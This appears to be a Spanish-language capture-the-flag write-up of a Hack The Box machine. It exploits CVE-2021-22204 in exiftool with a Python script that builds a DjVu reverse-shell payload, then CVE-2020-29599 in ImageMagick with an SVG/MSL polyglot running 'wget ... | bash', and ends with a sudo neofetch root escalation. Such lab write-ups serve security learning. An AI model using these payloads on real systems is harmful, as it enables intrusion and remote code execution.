




Resumen de Explotación
Cadena de explotación: Comenzamos descubriendo un virtual host artcorp.htb que alberga una aplicación vulnerable a la CVE-2021-22204 en exiftool. Mediante la creación de un archivo DjVu malicioso, logramos ejecutar comandos como usuario www-data. Enumerando el sistema, descubrimos que el usuario thomas ejecuta periódicamente un script que utiliza mogrify de ImageMagick (versión 7.0.10-36), vulnerable a CVE-2020-29599. Explotamos esta vulnerabilidad mediante un archivo SVG/MSL polyglote para obtener acceso como thomas. Finalmente, escalamos a root abusando de una configuración permisiva de sudo con neofetch, donde la variable de entorno XDG_CONFIG_HOME puede ser modificada para cargar un archivo de configuración malicioso.
Tecnologías/Exploits: CVE-2021-22204 (exiftool), CVE-2020-29599 (ImageMagick XXE), abuso de env_keep en sudo + GTFOBins (neofetch).
Reconocimiento Inicial
Comenzamos con un escaneo de Nmap para identificar los servicios disponibles en el objetivo:

El escaneo revela un virtual host artcorp.htb, que añadimos a nuestro archivo /etc/hosts para la posterior enumeración.
Una vez accedemos al sitio web, observamos una página con un listado de personal, donde destacamos a un desarrollador PHP. Esto nos sugiere que el backend probablemente está escrito en PHP. Realizamos un escaneo de virtual hosts con gobuster para descubrir más subdominios:
gobuster vhost -u http://artcorp.htb -w subdomains.txtEncontramos el virtual host dev01.artcorp.htbexiftool para extraer metadatos:

Explotación - Parte 1: CVE-2021-22204 en exiftool
Al subir una imagen a la sección /metaview, la aplicación procesa el archivo con exiftool y muestra claramente sus resultados:


Aunque el output no mostraba completamente la versión de exiftool, investigamos vulnerabilidades conocidas en esta herramienta. Encontramos la CVE-2021-22204, una vulnerabilidad de inyección de comandos en archivos DjVu que afecta a exiftool versiones 7.44 hasta 12.24.
La vulnerabilidad funciona porque exiftool no sanitiza correctamente datos en archivos DjVu. Localizamos un exploit público que genera un archivo DjVu malicioso que ejecuta comandos arbitrarios cuando es procesado:
https://github.com/convisolabs/CVE-2021-22204-exiftool
El exploit utiliza tres herramientas (bzz, djvumake, y exiftool) para crear un payload embebido en un archivo DjVu. El script Python genera un archivo que, cuando es procesado, ejecuta comandos del sistema:
#!/bin/env python3
import base64
import subprocess
ip = '10.10.14.172'
port = '443'
payload = b"(metadata \"\c${use MIME::Base64;eval(decode_base64('"
payload = payload + base64.b64encode(
f"use Socket;socket(S,PF_INET,SOCK_STREAM,getprotobyname('tcp'));if(connect(S,sockaddr_in({port},inet_aton('{ip}')))){{open(STDIN,'>&S');open(STDOUT,'>&S');open(STDERR,'>&S');exec('/bin/sh -i');}};".encode()
)
payload = payload + b"'))}; \")"
payload_file = open('payload', 'w')
payload_file.write(payload.decode('utf-8'))
payload_file.close()
subprocess.run(['bzz', 'payload', 'payload.bzz'])
subprocess.run(['djvumake', 'exploit.djvu', "INFO=1,1", 'BGjp=/dev/null', 'ANTz=payload.bzz'])
subprocess.run(['exiftool', '-config', 'configfile', '-HasselbladExif<=exploit.djvu', 'image.jpg'])
Al ejecutar el exploit con una reverse shell como payload, ganamos acceso al sistema como el usuario www-data. Una vez dentro, enumeramos el sistema y descubrimos el usuario thomas con un home accesible.
Enumeración y Descubrimiento de Procesos
Explorando el sistema, encontramos un archivo de configuración sospechoso en /home/thomas/.config/neofetch/config.conf y el binario neofetch instalado en el sistema. Para obtener más información sobre qué procesos se ejecutan en segundo plano, utilizamos pspy64:
Observamos que cada minuto se ejecuta el siguiente ciclo de procesos:
UID=1000 | /bin/bash /usr/local/bin/convert_images.sh
UID=1000 | /usr/local/bin/mogrify -format png *.*
UID=0 | /bin/sh -c rm /var/www/dev01.artcorp.htb/convert_images/*
El script convert_images.sh contiene el siguiente contenido:
#!/bin/bash
cd /var/www/dev01.artcorp.htb/convert_images/ && /usr/local/bin/mogrify -format png *.* 2>/dev/null
pkill mogrify
Investigamos qué es mogrify y descubrimos que es parte de la suite ImageMagick. La versión instalada es:
Version: ImageMagick 7.0.10-36 Q16 x86_64 2021-08-29Explotación - Parte 2: CVE-2020-29599 en ImageMagick
La versión 7.0.10-36 de ImageMagick es vulnerable a CVE-2020-29599, que permite inyección de comandos a través de la opción authenticate. Un investigador de seguridad documentó detalladamente cómo explotar esta vulnerabilidad:
https://nvd.nist.gov/vuln/detail/CVE-2020-29599
https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html
Primero probamos el PoC básico con la opción authenticate:
mogrify -authenticate 'test" `echo $(id)> ./poc`;"' test.pdf out.pngEl exploit funciona, pero es sensible a caracteres especiales. Para hacer la explotación más confiable, creamos un archivo SVG/MSL "polyglote" que funciona tanto como imagen SVG como código MSL de ImageMagick:
<image authenticate='ff" `wget -qO- 10.10.14.172 | bash`;"'>
<read filename="pdf:/etc/passwd"/>
<get width="base-width" height="base-height" />
<resize geometry="400x400" />
<write filename="test.png" />
<svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
<image xlink:href="msl:poc.svg" height="100" width="100"/>
</svg>
</image>
Este archivo polyglote es más robusto porque evita caracteres problemáticos como dos puntos en la inyección de comandos. Servimos un script de reverse shell desde nuestro servidor HTTP y lo ejecutamos mediante wget con pipe a bash:
Subimos el archivo SVG malicioso a través de la aplicación web en /metaview. Cuando se procesa durante el siguiente ciclo de ejecución (cada minuto), obtenemos una reverse shell como usuario thomas.
Escalación de Privilegios
Una vez accedemos como thomas, verificamos nuestros permisos con sudo:
thomas@meta:~$ sudo -l
Matching Defaults entries for thomas on meta:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+=XDG_CONFIG_HOME
User thomas may run the following commands on meta:
(root) NOPASSWD: /usr/bin/neofetch "\""
Notamos dos elementos críticos:
- El usuario
thomaspuede ejecutarneofetchcomorootsin contraseña - La variable de entorno
XDG_CONFIG_HOMEestá en la lista deenv_keep, lo que permite modificarla
Según GTFOBins, neofetch es vulnerable a ejecución de comandos a través de su archivo de configuración:
https://gtfobins.org/gtfobins/neofetch/
La técnica es simple: si el archivo de configuración contiene exec /bin/sh, ese comando se ejecutará cuando neofetch se inicie. Dado que podemos controlar la ruta del archivo de configuración mediante XDG_CONFIG_HOME, podemos hacer que neofetch cargue una configuración maliciosa.
Modificamos el archivo de configuración existente en /home/thomas/.config/neofetch/config.conf añadiendo la siguiente línea al principio:
exec /bin/shLuego ejecutamos el comando con la variable de entorno apuntando a nuestra configuración maliciosa:
thomas@meta:~$ XDG_CONFIG_HOME=/home/thomas/.config sudo neofetch "\""
root@meta:/home/thomas#
¡Escalamos a root! La combinación de la variable de entorno permitida en env_keep y la capacidad de ejecutar neofetch sin contraseña nos proporciona acceso administrativo completo al sistema.